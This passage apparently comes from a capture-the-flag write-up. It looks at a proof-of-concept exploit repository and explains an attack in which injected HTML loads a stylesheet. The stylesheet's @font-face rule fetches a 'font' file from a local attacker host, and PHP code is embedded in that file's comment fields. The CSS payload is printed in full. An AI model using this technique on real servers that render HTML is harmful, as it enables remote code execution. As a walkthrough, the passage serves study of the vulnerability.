 It has two folders along side the readme:



    oxdf@hacky$ ls
    application  exploit  README.md



`application` holds a vulnerable application. I'm interested in
`exploit`:



    oxdf@hacky$ ls exploit/
    exploit.css  exploit_font.php  overview.png



`overview.png` is the image I showed above.

The exploit idea is to send in HTML that loads `exploit.css` as a
stylesheet. That file looks like:



    @font-face {
        font-family:'exploitfont';
        src:url('http://localhost:9001/exploit_font.php');
        font-weight:'normal';
        font-style:'normal';
      }



This stylesheet will load `exploit_font.php` as a font. That is a binary
file, but the format includes text comments. In this case, those
comments are set to contain PHP (at the bottom of the image):

![](/img/image-20230213142323793.png)
